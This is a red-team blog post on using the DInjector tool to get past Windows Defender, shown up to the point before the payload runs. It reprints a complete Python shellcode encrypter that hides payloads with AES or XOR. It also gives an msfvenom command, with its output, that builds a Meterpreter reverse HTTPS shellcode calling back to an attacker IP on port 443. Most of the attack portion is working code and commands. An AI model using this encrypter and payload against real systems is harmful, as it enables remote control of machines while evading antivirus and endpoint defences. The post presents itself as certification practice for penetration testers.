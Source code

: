 ```yaml
---
layout: single
title: "Trying out DInjector as a AV/EDR bypassing tool, fully ported to DInvoke APIs"
date: 2021-10-26
tags:  
  - windows
  - avbypass
  - dinvoke
  - windows-defender
author_profile: true
---
```


Hello back fellow red teamers. I decided to come make a blog post after a little of long period in which I lost all of my other blog posts.

Lately I have been focused on Windows stuff, such as excercises on trying to bypass Windows Defender through trial and errors etc as a practice to help me make some preparations for a possible OSEP attempt lol.

I came across some amazing repos which I though would be worth to explain on a blog.

First let's take a view :

- [https://github.com/TheWover/DInvoke](https://github.com/TheWover/DInvoke)
 
DInvoke is dynamic replacement for PInvoke and contains powerful primitives that can be combined to dynamically invoke unmanaged code from disk or from memory.

You can have this reference for a deeper explaination on what DInvoke does and what it really is : [https://thewover.github.io/Dynamic-Invoke/](https://thewover.github.io/Dynamic-Invoke/)

While desperatly googling about examples of DInvoke being used on an actual Proof of Concept for silent Code Execution I ended up finding this amazing tool which is fully ported on DInvoke APIs : [https://github.com/snovvcrash/DInjector](https://github.com/snovvcrash/DInjector)

```
(    (
     )\ ) )\ )                   )             (   (  (
    (()/((()/(     (    (     ( /(    (        )\ ))\ )\
     /(_))/(_))(   )\  ))\ (  )\())(  )(      (()/((_|(_)
    (_))_(_))  )\ |(_)/((_))\(_))/ )\(()\      ((_))  _
     |   \_ _|_(_/( !(_)) ((_) |_ ((_)((_)     _| | || |
     | |) | || ' \)) / -_) _||  _/ _ \ '_|  _/ _` | || |
     |___/___|_||_|/ \___\__| \__\___/_|   (_)__,_|_||_|
                 |__/-----------------------------------
                                                K E E P
                                                C A L M
                                                  A N D
                                       D / I N 💉 E C T
                                      S H E L L C O D E
```

The repo consists of a shellcode encrypter which makes use of `xor` or `aes` algorithms and encrypts the file with a password using sha256 and the DLL project which we will be loading into the memory to execute code.

- encrypter.py

```python
#!/usr/bin/env python3

import os
import hashlib
from base64 import b64encode
from argparse import ArgumentParser

from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.primitives import padding
from cryptography.hazmat.backends import default_backend


class AES:

	def __init__(self, password, iv): 
		self.key = hashlib.sha256(password.encode()).digest()
		self.iv = iv

	def encrypt(self, raw):
		backend = default_backend()
		padder = padding.PKCS7(128).padder()
		raw = padder.update(raw) + padder.finalize()
		cipher = Cipher(algorithms.AES(self.key), modes.CBC(self.iv), backend=backend)
		encryptor = cipher.encryptor()
		return self.iv + encryptor.update(raw) + encryptor.finalize()


def parse_args():
	parser = ArgumentParser()
	parser.add_argument('shellcode_bin', action='store', type=str)
	parser.add_argument('-p', '--password', action='store', type=str, required=True)
	parser.add_argument('-a', '--algorithm', action='store', type=str, default='aes', choices=['aes', 'xor'])
	parser.add_argument('-o', '--output', action='store', type=str)
	parser.add_argument('--base64', action='store_true', default=False)
	return parser.parse_args()


if __name__ == '__main__':
	args = parse_args()

	with open(args.shellcode_bin, 'rb') as fd:
		shellcode = fd.read()

	if args.algorithm == 'aes':
		iv = os.urandom(16)
		ctx = AES(args.password, iv)
		enc = ctx.encrypt(shellcode)
	elif args.algorithm == 'xor':
		enc = bytearray(b ^ ord(args.password) for b in shellcode)

	if args.base64:
		print(b64encode(enc).decode())
	else:
		with open(args.output, 'wb') as fd:
			fd.write(enc)
		print(f'[+] Encrypted shellcode file: {args.output}')
```

I could use Visual Studio to compile the DLL project but doing everything in linux just fits in perfectly. I wasnt aware there was a developer tool such as ``monodeveloper`` which could handle `C#` and `.NET` compiling on linux.

![img1](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post2/DInjector1.png)

The walkthrough after compiling the DLL is pretty much straightforwards, I am going to create a meterpreter shellcode and have the output as raw : 

```bash
pi0x73@kali:~$ msfvenom -p windows/x64/meterpreter/reverse_winhttps LHOST=192.168.88.142 LPORT=443 EXITFUNC=thread -f raw -o shellcode.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 906 bytes
Saved as: shellcode.bin
```

Setting up a listener which will serve the DLL to be loaded and the shellcode : 

![img2](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post2/img2.png)

Before executing let's make sure Windows Defender is up to date.
![img3](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post2/img3.png)
